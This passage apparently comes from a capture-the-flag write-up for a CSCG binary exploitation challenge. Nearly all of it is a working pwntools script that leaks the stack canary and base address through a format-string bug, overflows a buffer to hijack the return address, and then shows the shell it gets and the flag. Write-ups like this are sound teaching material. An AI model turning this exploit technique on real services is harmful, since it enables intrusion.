 With all the information mentioned above we can finally develop our exploit:

```python
#!/usr/bin/env python3
from pwn import *

# THIS_IS_TEST_FLAG | NOW_PRACTICE_MORE
PASSWORD = 'CSCG{NOW_PRACTICE_MORE}' # Set to flag from stage 1

LEAK_BASE_OFFSET = 0xdc5
TARGET_OFFSET = 0xb94
RET_OFFSET = 0xdd1

# target = process('./pwn2/pwn2')
target = remote('hax1.allesctf.net', 9101)

target.sendline(PASSWORD)

# Canary + Return of welcome()
target.sendline('%39$p %41$p')
leaked = target.recvline_contains('magic spell:')
canary = int(leaked.split(b' ')[0][2:], 16)
base = int(leaked.split(b' ')[1][2:], 16) - LEAK_BASE_OFFSET

log.info(f'Leaked canary: {hex(canary)}')
log.info(f'Leaked base address: {hex(base)}')
log.info(f'Target address: {hex(base + TARGET_OFFSET)}')

target.sendline(b'Expelliarmus\0' +
	b'x' * (cyclic_find(b'cnaa')) +
	p64(canary) + b'x' * 8 +
	p64(base + RET_OFFSET) + p64(base + TARGET_OFFSET))

target.interactive()
```

Running the exploit drops us into a shell:

```
$ ./solve_2.py
[+] Opening connection to hax1.allesctf.net on port 9101: Done
[*] Leaked canary: 0xcab9780192e7a400
[*] Leaked base address: 0x55df8f118000
[*] Target address: 0x55df8f118b94
[*] Switching to interactive mode
~ Protego!
┌───────────────────────┐
│ You are a Slytherin.. │
└───────────────────────┘
$ id
uid=1000(ctf) gid=1000(ctf) groups=1000(ctf)
$ ls
flag
pwn2
ynetd
$ cat flag
CSCG{NOW_GET_VOLDEMORT}$
```
